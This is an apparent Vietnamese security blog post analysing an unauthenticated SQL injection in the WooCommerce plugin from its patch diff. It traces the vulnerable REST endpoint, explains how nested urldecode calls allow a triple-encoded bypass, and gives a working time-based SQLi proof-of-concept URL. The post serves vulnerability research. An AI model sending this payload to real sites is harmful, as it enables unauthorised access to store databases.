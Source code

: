 ![](https://images.viblo.asia/30d046bf-717d-406b-bbae-2ad4ec4bbeb2.png)

# Tóm tắt
Woocommerce là wordpress plugin cho phép xây dựng website bán hàng miễn phí. Hiện tại có hơn 5 triệu website đang sử dụng plugin này.

Lỗi unauthenticated SQLi của Woocommerce xảy ra do sử dụng hàm `wc_sanitize_taxonomy_name` làm sạch dữ liệu trước khi đưa vào truy vấn SQL. Nhưng hàm này lại có thể bypass thông qua triple urlencode.

Còn một lỗi nữa là authenticated SQLi do sử dụng `esc_like` để làm sạch dữ liệu cho câu truy vấn cộng với việc ghép chuỗi nên lỗi SQLi đã xảy ra.

# Tản mạn
*Bạn có thể bỏ qua phần này và vào luôn phần phân tích.*

Hôm qua, ngày 14 tháng 07 năm 2021, mình đi phượt từ quê lên Hà Nội (khoảng 100 cây) toàn thân mệt mỏi rã rời. Lúc đi qua địa phận Hưng Yên, **đoạn từ KM 32 đến KM 17 trên QL5 (AH14)**, mình gặp 3 chốt giao thông và được mời vào làm việc cả 3. Các chú thấy mình không có gương xe liền mời vào làm việc theo đúng quy trình. Sau khi làm việc xong các chú mới biết:

> Xe không gương không phải là xe không có gương
> 
> Gương rơi, gương rụng, gương gãy mất rồi

Và mình cũng trình bày, do còn là sinh viên nghèo nên các chú đã thương xót và bảo:

> Về lắp gương vào nhé

Xong việc, mình cảm ơn các và lên xe rời đi. Tất cả chỉ mất 1 phút 30 giây.

Lên đến nơi, vào khoảng 23:10 anh team lead (@vigov5) có bảo bọn mình rằng **Thằng Woocommerce dính Unauthen SQL injection**. Nhưng lúc đó muộn và cũng mệt nên mình không nghiên cứu ngay mà để đến sáng rồi tính tiếp.

Tin này có được là do ông **[dawgyg](https://twitter.com/thedawgyg)** này share trên twitter.

![](https://images.viblo.asia/41bfde50-57ba-4161-a739-bf8580697ad3.png)

# Phân tích
Sáng thức dậy, sau khi họp team xong mình liền tiến hành việc phân tích lỗi. Mình nghĩ rằng lỗi này mới như vậy chắc chưa có bản vá nhưng không khi vào xem thì thấy đã có bản vá cách 5 tiếng trước rồi.

Vậy thì công việc giờ đơn giản hơn nhiều, chỉ việc xem diff và phân tích tích không cần phải tìm hiểu lỗi nằm ở đoạn nào nữa.

![](https://images.viblo.asia/424cfc59-7fe0-4ee5-8241-d377ae58f43c.png)

Như ta thấy thì có 2 chỗ code được thay đổi:
1. Dòng 280 `includes/data-stores/class-wc-webhook-data-store.php`
2. Dòng 86 `packages/woocommerce-blocks/src/StoreApi/Utilities/ProductQueryFilters.php`

Sau khi phân tích thì mình biết được lỗi unauthen SQL injection là ở đoạn code thứ 2.

> Đoạn code 1 cũng có lỗi SQL injection. Cái này bạn đọc tự nghiên cứu nhé vì nó dễ hơn.

## Tìm endpoint
Điều đầu tiên là cần tìm endpoint để có thể thực thi được hàm gây ra lỗi.

Đầu tiên mình flow ngược lên xem hàm gây ra lỗi được gọi từ đâu, từ đó có thể tìm được endpoint để gọi tới hàm này. Dưới là các bước gọi hàm:

1. `/packages/woocommerce-blocks/src/StoreApi/Utilities/ProductQueryFilters.php:86` hàm `get_attribute_counts`
2. `/packages/woocommerce-blocks/src/StoreApi/Routes/ProductCollectionData.php:110` hàm `get_route_response`
3. `/packages/woocommerce-blocks/src/StoreApi/RoutesController.php:96` hàm `initialize`
4. `/packages/woocommerce-blocks/src/RestApi.php:28` hàm `__construct`

Mục tiêu bây giờ là nhảy được vào hàm `get_attribute_counts` tương ứng với bước số 1.

**Giờ phải đi từ dưới đi lên.**

Theo flow này, mình tìm được đoạn code đăng ký REST API `/packages/woocommerce-blocks/src/StoreApi/RoutesController.php:57`

```php
	/**
	 * Register defined list of routes with WordPress.
	 */
	public function register_routes() {
		foreach ( $this->routes as $route ) {
			register_rest_route(
				$route->get_namespace(),
				$route->get_path(),
				$route->get_args()
			);
		}
	}
```

Đoạn code trên kết hợp với đoạn code định nghĩa danh sách các API ở dưới (`RoutesController.php:70`)

```php
	protected function initialize() {
		global $wp_version;

		$cart_controller  = new CartController();
		$order_controller = new OrderController();

		$this->routes = [
            ...
			'product-collection-data'   => new Routes\ProductCollectionData( $this->schemas->get( 'product-collection-data' ) ),
            ...
		];

		// Batching requires WP 5.6.
		if ( version_compare( $wp_version, '5.6', '>=' ) ) {
			$this->routes['batch'] = new Routes\Batch();
		}
	}
```

Thì mình đã có được enpoint để nhả tới bước 2.

```
/wp-json/wc/store/products/collection-data
```

Cuối cùng, endpoint để có thể nhảy tới `/packages/woocommerce-blocks/src/StoreApi/Utilities/ProductQueryFilters.php:86` trong bước 1 là:

```
/wp-json/wc/store/products/collection-data?calculate_attribute_counts[0][query_type]=and&calculate_attribute_counts[0][taxonomy]=xxx
````

## Phân tích lỗi
Đoạn code có lỗi:

```php
	public function get_attribute_counts( $request, $attributes = [] ) {
		global $wpdb;

        ...

		$attributes_to_count     = array_map( 'wc_sanitize_taxonomy_name', $attributes );
		$attributes_to_count_sql = 'AND term_taxonomy.taxonomy IN ("' . implode( '","', $attributes_to_count ) . '")';
		$attribute_count_sql     = "
			SELECT COUNT( DISTINCT posts.ID ) as term_count, terms.term_id as term_count_id
			FROM {$wpdb->posts} AS posts
			INNER JOIN {$wpdb->term_relationships} AS term_relationships ON posts.ID = term_relationships.object_id
			INNER JOIN {$wpdb->term_taxonomy} AS term_taxonomy USING( term_taxonomy_id )
			INNER JOIN {$wpdb->terms} AS terms USING( term_id )
			WHERE posts.ID IN ( {$product_query_sql} )
			{$attributes_to_count_sql}
			GROUP BY terms.term_id
		";

		$results = $wpdb->get_results( $attribute_count_sql ); // phpcs:ignore

		return array_map( 'absint', wp_list_pluck( $results, 'term_count', 'term_count_id' ) );
	}
```

Mình đã biết từ trước là có lỗi SQL injection nên mình tìm hàm thực thi câu truy vấn SQL
```php
$results = $wpdb->get_results( $attribute_count_sql );
```

Câu lệnh trên nhận vào tham số là `$attribute_count_sql`, biến này lại ghép từ biến `$attributes_to_count_sql`.

Biến `$attributes_to_count_sql` là kết quả đầu ra của hàm `array_map`

```php
$attributes_to_count     = array_map( 'wc_sanitize_taxonomy_name', $attributes );
```

Tham số `$attributes` của hàm `array_map` chính là `calculate_attribute_counts[0][taxonomy]=xxx` ở biến `$_GET`.

Tham số đầu tiên là `wc_sanitize_taxonomy_name` (đây là callback của hàm array_map). Do vậy, mình đi đọc xem hàm này nó làm gì.

```php
function wc_sanitize_taxonomy_name( $taxonomy ) {
	return apply_filters( 'sanitize_taxonomy_name', urldecode( sanitize_title( urldecode( $taxonomy ) ) ), $taxonomy );
}
```

Hàm `wc_sanitize_taxonomy_name` thực hiện làm sạch dữ liệu bằng cách gọi hàm `sanitize_title` (hàm của worpdress).

```
By default, converts accent characters to ASCII characters and further limits the output to alphanumeric characters, underscore (_) and dash (-) through the ‘sanitize_title’ filter.
```

Đào sâu hơn nữa thì hàm `sanitize_title`  làm sạch dữ liệu theo dạng URL. tức là đầu ra sẽ là các ký tự: **a-zA-z0-9, -, _, %**.

**Điểm đáng chú ý ở đoạn code này là sử dụng hàm `urldecode` lồng nhau. Đây là mấu chốt để ta có thể bypass hàm làm sạch dữ liệu**

```php
 urldecode( sanitize_title( urldecode( $taxonomy ) ) )
 ```
 
 ## Khai thác
 Phân tích lỗi xong xuôi, nghe thì ngon lành rồi. Bây giờ là lúc POC lại xem có thật là lỗi hay không!
 
 Mã khai thác
 ```
 /wordpress/wp-json/wc/store/products/collection-data?calculate_attribute_counts[0][query_type]=and&calculate_attribute_counts[1][taxonomy]=xxx%252522%252529%252520or%252520sleep%2525280%25252e1%252529%252523
 ```
 
 Kết quả POC delay 2,759s
 
 ![](https://images.viblo.asia/431bc3dd-49fe-4ec8-9ce2-b8c14ec88f88.png)

Bài phân tích xin kết thúc ở đây!